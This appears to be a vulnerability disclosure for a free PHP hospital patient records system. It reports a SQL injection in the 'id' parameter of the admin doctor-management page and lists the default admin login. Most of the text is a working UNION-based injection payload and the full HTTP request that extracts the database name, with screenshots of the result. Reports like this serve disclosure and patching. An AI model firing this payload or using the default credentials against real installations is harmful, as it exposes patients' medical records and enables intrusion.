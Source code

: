 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/admin/doctors/manage_doctor.php?id=

Vulnerability location: /hprms/admin/doctors/manage_doctor.php?id=, id

Current database name: hprms_db ,length is 8

[+] Payload: /hprms/admin/doctors/manage_doctor.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /hprms/admin/doctors/manage_doctor.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171410299-84d31b65-38d0-4a73-bfb5-046e68b69e84.png)

![image](https://user-images.githubusercontent.com/54017627/171410242-9fef7b66-8778-423b-b7b0-fe0dd1db054e.png)
